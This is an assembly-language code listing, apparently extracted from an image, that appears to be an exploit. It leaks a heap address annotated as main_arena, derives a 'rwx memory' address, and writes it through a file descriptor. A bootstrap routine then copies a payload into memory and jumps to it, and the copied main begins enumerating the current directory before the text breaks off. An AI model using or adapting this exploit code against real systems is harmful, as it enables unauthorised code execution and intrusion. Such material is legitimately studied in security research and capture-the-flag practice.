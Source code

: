 ```

	movq $2, %rax
	leaq str_d(%rip), %rdi
	movq $0x80, %rsi
	syscall # open(str_d, 0x80) = 7

	movq $2, %rax
	leaq str_e(%rip), %rdi
	movq $0x80, %rsi
	syscall # open(str_e, 0x80) = 8

	movq buf_1 + 0x40(%rip), %rax  # <main_arena+1632>
	addq $-0xc0b1e0, %rax          # rwx memory
	movq %rax, buf_2(%rip)

	movq $1, %rax
	movq $8, %rdi
	leaq buf_2(%rip), %rsi
	movq %rdi, %rdx
	syscall # write(8, buf_2, 8)

	movq $3, %rax
	movq $7, %rdi
	syscall # close(7)

str24_a: .ascii "aaaaaaaaaaaaaaaaaaaaaaa"
str_a: .string "a"
str_b: .string "b"
str_c: .string "c"

str24_d: .ascii "ddddddddddddddddddddddd"
str_d: .string "d"
str_e: .string "e"

buf_1: .skip 0x110
buf_2: .skip 0x110


_bootstrap:
	movq addr_src_p(%rip), %rsi
	movq (%rsi), %rsi
	movq addr_dest(%rip), %rdi
	movq $0x5000, %rcx
	rep
	movsb

	movq addr_dest(%rip), %rax
	addq $(main - _start), %rax
	jmp *%rax

addr_src_p: .quad 0x0
addr_dest: .quad 0x0


main:
	movq $257, %rax
	movq $-100, %rdi
	leaq dot(%rip), %rsi
	movq $0x90800, %rdx
	syscall # fd = openat(AT_FDCWD, ".", O_RDONLY|O_NONBLOCK|O_CLOEXEC|O_DIRECTORY)

	movq %rax, %rdi
	movq $217, %rax
```